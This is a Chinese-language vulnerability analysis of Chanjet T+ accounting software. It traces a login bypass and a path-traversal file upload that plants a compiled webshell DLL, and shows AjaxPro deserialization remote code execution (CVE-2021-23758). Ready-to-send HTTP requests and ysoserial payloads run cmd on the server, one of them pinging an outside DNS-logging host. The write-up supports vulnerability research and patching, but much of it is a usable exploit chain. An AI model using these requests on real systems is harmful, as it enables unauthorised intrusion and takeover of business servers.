


畅捷通历史漏洞分析

- - -

# 畅捷通历史漏洞分析

## 文件上传

/tplus/SM/SetupAccount/Upload.aspx存在文件上传漏洞  
查看源代码文件发现其是预编译的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214195901-717be9ba-cb30-1.png)  
在 bin 目录下找到其.compiled 文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200007-98a92246-cb30-1.png)  
然后反编译 upload.aspx.9475d17f.dll，可以发现其 Page\_Load 方法 (用于处理页面加载时的操作) 中实现了文件上传功能  
只对 Content-Type 进行了校验，但未对文件上传的后缀做校验，默认保存到/SM/SetupAccount/image 目录下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200119-c3904d18-cb30-1.png)  
尝试进行利用会发现提示：没有登录，请登录  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200201-dccc0934-cb30-1.png)  
查看全局文件 Global.asax，其指向 Global.asax.cs 文件，类为 Ufida.T.Web.Http.Global  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200217-e5ecf276-cb30-1.png)  
在 bin 目录中寻找 dll 文件并反编译  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200228-ec75e22e-cb30-1.png)  
在 Ufida.T.Web.Http.Global 类中，发现上面的登录提示位于 Application\_PreRequestHandlerExecute 方法中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200241-f434aa68-cb30-1.png)  
对 Application\_PreRequestHandlerExecute 方法进行分析，可以看到一开始就判断了，只要 flag 为 true 或者 RequestChecker.IsBaseRquest(empty) 为 true 就直接 return 了，return 了就不会执行后面的权限判断逻辑了  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200255-fc7fa7ea-cb30-1.png)  
flag 为 true，需要传入的参数 preload 的值为 1，继续看下 IsBaseRquest 方法，设置了一些白名单的关键字，只要传入的 url 包含这些关键字就返回 true  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200313-07d0250c-cb31-1.png)  
很明显，我们只要传入 preload=1 就能绕过登录限制了

```plain
POST /tplus/SM/SetupAccount/Upload.aspx?preload=1 HTTP/1.1
Host: xxxxxx:xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 180
Content-Type: multipart/form-data; boundary=9df1c9e8486b0bf2a2a1bf99e7fbeb02

--9df1c9e8486b0bf2a2a1bf99e7fbeb02
Content-Disposition: form-data; name="File1"; filename="../../../1.aspx"
Content-Type: image/jpeg

test
--9df1c9e8486b0bf2a2a1bf99e7fbeb02--
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200342-1917a286-cb31-1.png)  
但因为其是预编译的，所以直接上传.aspx 文件是无法解析的  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200415-2c896ff2-cb31-1.png)  
可以上传编译好的 dll 到 bin 目录下进行利用

```plain
C:\WINDOWS\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe -v /  -p c:\3 c:\4 -fixednames
```

\-p aspx 马所在目录 编译生成文件所保存目录  
在 bin 目录下会生成如下两个文件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200454-43e46c60-cb31-1.png)  
将这两个文件传到 web 目录的 bin 目录下就行了  
前面说过，只要传入的 url 包含关键字就能返回 true 导致直接 return，所以我们也可以构造如下请求进行绕过

```plain
POST /tplus/SM/SetupAccount/Upload.aspx/;/login HTTP/1.1
Host: xxxxxx:xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 179
Content-Type: multipart/form-data; boundary=9df1c9e8486b0bf2a2a1bf99e7fbeb02

--9df1c9e8486b0bf2a2a1bf99e7fbeb02
Content-Disposition: form-data; name="File1"; filename="../../../2.txt"
Content-Type: image/jpeg

test
--9df1c9e8486b0bf2a2a1bf99e7fbeb02--
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200540-5f0ccb68-cb31-1.png)

## 反序列化

web.config 中看到使用了 ajaxpro 组件  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200638-81b097ee-cb31-1.png)  
ajaxpro 组件存在 CVE-2021-23758 漏洞，标有属性\[AjaxPro.AjaxMethod\]或\[AjaxMethod\]，并且接收 object 类型参数的方法能够 rce  
根据公开的路由：/tplus/ajaxpro/Ufida.T.CodeBehind.\_PriorityLevel,App\_Code.ashx?method=GetStoreWarehouseByStore  
查看代码可以看到 Ufida.T.CodeBehind.\_PriorityLevel 类的 GetStoreWarehouseByStore 方法刚好满足  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200712-9642caf6-cb31-1.png)  
利用 ysoserialNet 生成 payload

```plain
ysoserial.exe -g objectdataprovider -f JavaScriptSerializer -c "calc" -o raw
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200742-a796bb8c-cb31-1.png)  
发送 poc

```plain
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore/;/login HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: GetStoreWarehouseByStore
Host: 192.168.37.168:8080
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 604

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c ping d4e5b59b8a.ipv6.1433.eu.org."
        }
    }
  }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200819-bdbb2344-cb31-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200828-c311039a-cb31-1.png)  
Ufida.T.CodeBehind.\_PriorityLevel 类在 App\_Code.dll 中，在 App\_Code.dll 中进行搜索，发现 Ufida.T.CodeBehind.DR.Member.MemberIntegral.ME\_MemberIntegral\_IntegralAdjust 类的 InitInstance 方法也是满足条件的，poc 如下：

```plain
POST /tplus/ajaxpro/Ufida.T.CodeBehind.DR.Member.MemberIntegral.ME_MemberIntegral_IntegralAdjust,App_Code.ashx?method=InitInstance/;/login HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: InitInstance
Host: 192.168.37.168:8080
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 585

{
  "arges":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c calc"
        }
    }
  }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200856-d41e537c-cb31-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240214200904-d8fa044a-cb31-1.png)

## 参考

[https://www.ctfiot.com/16694.html](https://www.ctfiot.com/16694.html)
